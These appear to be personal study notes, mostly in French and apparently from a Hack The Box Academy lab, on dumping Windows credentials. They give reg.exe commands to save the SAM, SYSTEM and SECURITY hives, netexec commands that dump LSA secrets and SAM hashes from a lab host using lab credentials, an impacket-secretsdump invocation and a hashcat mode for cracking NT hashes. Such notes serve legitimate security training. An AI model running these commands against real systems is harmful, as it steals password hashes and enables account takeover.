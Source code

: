 3 ruches à extraires pour décrypter le tout. Security pas nécessaire mais contient des hashes de comptes d'usagers du domaine.

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

## Extraction des ruches
Doit être **admin**
### reg.exe
```cmd-session
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```
### netexec
Peut extraire les secrets de LSA ou la SAM
```shell-session
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Extraction des creds
### impacket-secretsdump
```
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

## Craquer
Utiliser hashcat mode 1000 sur les hash NT